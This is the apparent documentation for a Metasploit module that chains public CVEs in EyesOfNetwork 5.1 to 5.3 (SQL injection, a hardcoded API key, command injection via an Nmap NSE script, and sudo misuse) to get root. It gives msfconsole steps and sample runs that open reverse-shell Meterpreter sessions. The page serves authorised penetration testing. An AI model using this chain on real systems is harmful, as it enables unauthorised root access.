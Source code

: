 ## Vulnerable Application
This module exploits multiple vulnerabilities in EyesOfNetwork version 5.1, 5.2 and 5.3 in order to execute arbitrary commands as root.

The module first runs a few checks to verify the EyesOfNetwork version. If version 5.1 or 5.2 is detected, it attempts an authentication bypass via an SQL injection in the user_id field in a cookie (CVE-2020-9465). If version 5.3 is detected, the module exploits a hardcoded admin API key in EyesOfNetwork API version 2.4.2 (CVE-2020-8657) in order to generate a valid access token and use it to create a new user with admin privileges. If the generated key is not valid, the admin API key is obtained via an SQL injection vulnerability affecting the same API version (CVE-2020-8656). If this doesn't work either, it attempts CVE-2020-9465, which is the slowest and most noisy exploit of the three.

For all vulnerable versions, the next step after bypassing authentication is to abuse a command injection vulnerability in the `target` parameter of the AutoDiscovery functionality within the EON web interface (CVE-2020-8654). Specifically, the module writes an Nmap NSE script containing the payload to disk, and then activates this script by launching an Nmap host discovery scan against the target. This achieves privilege escalation because the default sudo configuration permits the 'apache' user to execute Nmap as root (CVE-2020-8655).

The module only works with HTTPS, so SSL is enabled by default. Valid credentials for a user with administrative privileges are required. However, as explained above, the module can bypass authentication via various methods, depending on the EON version. This module has been successfully tested on EyesOfNetwork 5.1, 5.2 and 5.3.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/linux/http/eyesofnetwork_autodiscovery_rce`
4. Do: `set RHOSTS [IP]`
5. Do: `set payload [payload]`
6. Do: `set LHOST [IP]`
7. Do: `exploit`

## Options
1. `SERVER_ADDR`. This option should be set for EON version 5.3 in case the EyesOfNetwork server IP address is different from RHOST. This because the EON server IP is needed to generate the API key.

## Advanced Options
1. `SQLI_SLEEP`. The sleep value to be used when attempting to exploit CVE-2020-9465, which uses sleep-based SQL injection. The default value is 1.

## Scenarios
1. EyesOfNetwork version 5.1
```
msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > show options

Module options (exploit/linux/http/eyesofnetwork_autodiscovery_rce):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.1.1      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        443              yes       The target port (TCP)
   SERVER_ADDR                   yes       EyesOfNetwork server IP address (if different from RHOST)
   SRVHOST      0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT      8080             yes       The local port to listen on.
   SSL          true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI    /                yes       Base path to EyesOfNetwork
   URIPATH                       no        The URI to use for this exploit (default is random)
   VHOST                         no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Target is EyesOfNetwork version 5.1. Attempting exploitation using CVE-2020-9465.
[+] The target seems vulnerable.
[*] Verified that the admin user has at least one active session.
[*] Found the admin 'session_id' size: 31
[*] Calculating the admin 'session_id' value. This will take a while...
[+] Obtained admin 'session_id' value: 1856115646
[*] Command Stager progress - 100.00% done (897/897 bytes)
[*] Sending stage (3012516 bytes) to 192.168.1.1
[*] Meterpreter session 1 opened (192.168.91.2:4444 -> 192.168.1.1:55744) at 2020-05-19 08:48:37 -0400
```
2. EyesOfNetwork version 5.2
```
msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Target is EyesOfNetwork version 5.2. Attempting exploitation using CVE-2020-9465.
[+] The target seems vulnerable.
[*] Verified that the admin user has at least one active session.
[*] Found the admin 'session_id' size: 31
[*] Calculating the admin 'session_id' value. This will take a while...
[+] Obtained admin 'session_id' value: 1445224287
[*] Command Stager progress - 100.00% done (897/897 bytes)
[*] Sending stage (3012516 bytes) to 192.168.1.3
[*] Meterpreter session 2 opened (192.168.1.2:4444 -> 192.168.1.3:38070) at 2020-05-19 08:49:46 -0400
```
3. EyesOfNetwork version 5.3
```
msf5 exploit(linux/http/eyesofnetwork_autodiscovery_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.2:4444 
[*] Target is EyesOfNetwork version 5.3 or later. Attempting exploitation using CVE-2020-8657 or CVE-2020-8656.
[*] Using generated API key: a926605f4e617fd68bbb86112156b41ea2406503859dad58b0d0aefcc848b755
[+] Authenticated as user r6veXwtZ2zh
[*] Command Stager progress - 100.00% done (897/897 bytes)
[*] Sending stage (3012516 bytes) to 192.168.1.4
[*] Meterpreter session 3 opened (192.168.1.2:4444 -> 192.168.1.4:60244) at 2020-05-19 08:50:04 -0400
```
## References
1. <https://www.exploit-db.com/exploits/48025>
2. <https://nvd.nist.gov/vuln/detail/CVE-2020-8654>
3. <https://nvd.nist.gov/vuln/detail/CVE-2020-8655>
4. <https://nvd.nist.gov/vuln/detail/CVE-2020-8656>
5. <https://nvd.nist.gov/vuln/detail/CVE-2020-8657>
6. <https://nvd.nist.gov/vuln/detail/CVE-2020-9465>
